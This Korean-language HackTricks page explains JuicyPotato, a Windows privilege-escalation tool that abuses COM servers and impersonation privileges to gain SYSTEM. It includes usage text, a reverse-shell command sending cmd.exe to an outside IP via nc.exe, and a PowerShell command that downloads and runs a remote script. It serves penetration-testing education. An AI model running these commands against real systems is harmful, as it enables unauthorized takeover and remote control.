 # JuicyPotato

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **HackTricks에 귀사를 광고하고 싶으신가요**? 혹은 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 얻으세요.
* **💬** [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터**에서 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **해킹 요령을 공유하고 싶으시다면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **로 PR을 제출하세요.**

</details>

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)은 **다크 웹**을 활용한 검색 엔진으로, 회사나 그 고객이 **스틸러 악성 소프트웨어**에 의해 **침해**를 당했는지 무료로 확인할 수 있는 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 도난 악성 소프트웨어로 인한 계정 탈취 및 랜섬웨어 공격을 막는 것입니다.

그들의 웹사이트를 확인하고 무료로 엔진을 시험해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

---

{% hint style="warning" %}
**JuicyPotato는** Windows Server 2019 및 Windows 10 빌드 1809 이후에서 작동하지 않습니다. 그러나 [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)를 사용하여 **동일한 권한을 활용하고 `NT AUTHORITY\SYSTEM` 수준의 액세스를 얻을 수 있습니다. _**확인:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (황금 권한 남용) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_RottenPotatoNG_의 달콤한 버전으로, 즉 **다른 로컬 권한 상승 도구, Windows 서비스 계정에서 NT AUTHORITY\SYSTEM으로**_

#### [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)에서 juicypotato를 다운로드할 수 있습니다.

### 요약 <a href="#summary" id="summary"></a>

[**juicy-potato Readme에서**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) 및 [변형](https://github.com/decoder-it/lonelypotato)은 [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [서비스](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)를 기반으로 한 권한 상승 체인을 활용하며, `127.0.0.1:6666`에서 MiTM 리스너를 가지고 있고 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한이 있는 경우입니다. Windows 빌드 검토 중에 `BITS`가 의도적으로 비활성화되었고 포트 `6666`이 사용 중임을 발견했습니다.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)을 무장화하기로 결정했습니다: **Juicy Potato를 만나보세요**.

> 이론적으로는 [Rotten Potato - 서비스 계정에서 SYSTEM으로의 권한 상승](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)을 참조하고 링크 및 참조 사슬을 따르세요.

`BITS` 이외에도 현재 사용자, 일반적으로 임펄슨 권한을 가진 "서비스 사용자"로 인스턴스화할 수 있는 여러 COM 서버를 남용할 수 있다는 것을 발견했습니다.

1. 현재 사용자에 의해 인스턴스화될 수 있어야 합니다. 일반적으로 임펄슨 권한을 가진 "서비스 사용자"
2. `IMarshal` 인터페이스를 구현해야 합니다.
3. 고도의 사용자(SYSTEM, 관리자 등)로 실행해야 합니다.

일부 테스트를 거친 후, 여러 Windows 버전에서 [흥미로운 CLSID 목록](http://ohpe.it/juicy-potato/CLSID/)을 획득하고 테스트했습니다.

### Juicy details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato를 사용하면 다음을 수행할 수 있습니다:

* **대상 CLSID** _원하는 CLSID를 선택하세요._ [_여기_](http://ohpe.it/juicy-potato/CLSID/) _에서 OS별로 정리된 목록을 찾을 수 있습니다._
* **COM Listening port** _마샬된 하드코딩된 6666 대신 선호하는 COM 수신 포트를 정의하세요_
* **COM Listening IP address** _원하는 IP에 서버를 바인딩하세요_
* **프로세스 생성 모드** _임펄슨된 사용자의 권한에 따라 다음 중 선택할 수 있습니다:_
* `CreateProcessWithToken` (`SeImpersonate` 필요)
* `CreateProcessAsUser` (`SeAssignPrimaryToken` 필요)
* `둘 다`
* **시작할 프로세스** _악용이 성공하면 실행할 실행 파일 또는 스크립트_
* **프로세스 인수** _시작된 프로세스 인수를 사용자 정의하세요_
* **RPC 서버 주소** _외부 RPC 서버에 인증할 수 있는 은밀한 방법_
* **RPC 서버 포트** _외부 서버에 인증하려는 경우 유용하며 방화벽이 포트 `135`를 차단하는 경우..._
* **테스트 모드** _주로 테스트 목적으로, 즉 CLSID를 테스트합니다. DCOM을 생성하고 토큰의 사용자를 출력합니다. 테스트를 위해_ [_여기를 참조하세요_](http://ohpe.it/juicy-potato/Test/)
### 사용법 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 최종 결론 <a href="#final-thoughts" id="final-thoughts"></a>

[**Juicy Potato Readme에서**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

만약 사용자가 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한을 가지고 있다면 **SYSTEM** 권한을 얻을 수 있습니다.

모든 이러한 COM 서버의 남용을 방지하는 것은 거의 불가능합니다. `DCOMCNFG`를 통해 이러한 객체의 권한을 수정할 수 있지만, 행운을 빕니다. 이것은 도전적일 것입니다.

실제 해결책은 `* SERVICE` 계정 아래에서 실행되는 민감한 계정 및 응용 프로그램을 보호하는 것입니다. `DCOM`을 중지하면 이 취약점을 억제할 수 있지만, 기본 OS에 심각한 영향을 줄 수 있습니다.

출처: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 예시

참고: 시도할 CLSID 목록은 [이 페이지](https://ohpe.it/juicy-potato/CLSID/)를 방문하십시오.

### nc.exe 역쉘 획득
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### 파워셸 역순
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 새 CMD 창 열기 (RDP 액세스가 있는 경우)

![](<../../.gitbook/assets/image (297).png>)

## CLSID 문제

대부분 JuicyPotato가 사용하는 기본 CLSID는 **작동하지 않을 수 있으며** 이로 인해 exploit이 실패할 수 있습니다. 일반적으로 **작동하는 CLSID**를 찾기 위해 여러 번 시도해야 합니다. 특정 운영 체제에 대한 시도할 CLSID 목록을 얻으려면 다음 페이지를 방문해야 합니다:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDs 확인**

먼저, juicypotato.exe 이외의 몇 가지 실행 파일이 필요합니다.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)를 다운로드하고 PS 세션에 로드하고 [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)를 다운로드하고 실행하십시오. 해당 스크립트는 테스트할 가능한 CLSID 목록을 생성합니다.

그런 다음 [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID 목록 및 juicypotato 실행 파일 경로를 변경)을 다운로드하고 실행하십시오. 모든 CLSID를 시도하기 시작하고 **포트 번호가 변경되면 CLSID가 작동**한 것입니다.

**-c 매개변수를 사용하여** 작동하는 CLSID를 **확인**하십시오.

## 참고 자료

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)은 **다크 웹**을 기반으로 한 검색 엔진으로, 회사나 그 고객이 **스틸러 악성 코드**에 의해 **침해**를 당했는지 무료로 확인할 수 있는 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보를 도난하는 악성 코드로 인한 계정 탈취 및 랜섬웨어 공격에 대항하는 것입니다.

그들의 웹사이트를 방문하고 **무료**로 엔진을 시도해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 제로에서 영웅까지 AWS 해킹 배우기</strong></summary>

* **사이버 보안 회사에서 일하십니까?** **HackTricks에 귀사를 광고하고 싶으십니까?** 또는 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으십니까? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하십시오!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하십시오. 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 얻으십시오
* **💬** [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하십시오.
* **해킹 트릭을 공유하려면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 PR을 제출**하십시오.

</details>
